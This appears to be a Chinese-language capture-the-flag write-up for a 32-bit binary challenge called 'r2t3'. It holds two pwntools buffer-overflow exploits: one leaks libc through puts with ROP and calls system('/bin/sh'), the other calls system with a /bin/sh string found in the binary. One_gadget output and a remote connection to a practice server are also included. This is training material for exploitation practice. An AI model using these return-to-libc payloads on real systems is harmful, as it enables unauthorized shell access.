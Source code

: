 # r2t3



![ESZnzS](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/ESZnzS.png)

漏洞点

![VY0Vw6](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/VY0Vw6.png)

一开始用ROP leak地址。。。结果不知道为啥，只能溢出一次。。。第二次输入长度就是不对。。。

而且第一次溢出也有点问题，不清楚自己是怎么绕过的。。

 ```python
#!/usr/bin/python
from pwn import *


p=process("r2t3.dms")
#p=remote("node3.buuoj.cn",25088)
context.log_level='Debug'
gdb.attach(p,'b *0x80485E1') #,'b *0x80485E1'
#libc=ELF('libc-2.29-2.so')
libc=ELF('/lib/i386-linux-gnu/libc-2.23.so')
BIN=ELF('r2t3.dms')

main=0x804863B
system_plt=BIN.plt['system']
puts_plt=BIN.plt['puts']
puts_got=BIN.got['puts']
puts_offset=libc.symbols['puts']

print "system_plt"+hex(system_plt)
print "puts_plt"+hex(puts_plt)
print "puts_got"+hex(puts_got)
print "puts"+hex(puts_offset)
payload="A"*(0x19-4)+p32(puts_plt)+p32(main)+p32(puts_got)
p.sendline(payload+"A"*(0x400-0x28))
#p.recv(0x487) local
p.recvuntil("AAA\n")
p.recv(0x1a+8)

leak=u32(p.recv(4))
libc_addr=leak-puts_offset
print "leak="+hex(leak)
print "libc="+hex(libc_addr)


#p.recvuntil("Please input your name:")
binsh= next(libc.search('/bin/sh\x00'))
binsh=libc_addr+binsh
print "binsh="+hex(binsh)
#p.sendline(payload+"A"*(0x400-0x28))
p.sendline("A"*(0x19-4)+p32(system_plt)+p32(main)+p32(binsh)+"A"*(0x300-0x20))
#p.sendline("A"*0x3f9)

#p.sendline("A"*0x280)
#one_gadget=0x106ef8+libc_addr

p.interactive()

'''

$ one_gadget libc-2.29.so 
0xe237f execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe2383 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0xe2386 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

0x106ef8 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''
 ```

后来发现/bin/sh地址在ELF里就有。。。浪费了好多时间

```python
#!/usr/bin/python
from pwn import *


#p=process("r2t3.dms")
p=remote("node3.buuoj.cn",25088)
context.log_level='Debug'
#gdb.attach(p,'b *0x8048615') #,'b *0x80485E1'
libc=ELF('libc-2.29-2.so')
#libc=ELF('/lib/i386-linux-gnu/libc-2.23.so')
BIN=ELF('r2t3.dms')

main=0x804863B
system_plt=BIN.plt['system']
#puts_plt=BIN.plt['puts']
#puts_got=BIN.got['puts']
#puts_offset=libc.symbols['puts']
print "system_plt"+hex(system_plt)

binsh=0x8048760
payload="A"*(0x19-4)+p32(system_plt)+p32(main)+p32(binsh)
p.sendline(payload+"A"*(0x400-0x28))

p.interactive()
```



![UZeJVr](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/UZeJVr.png)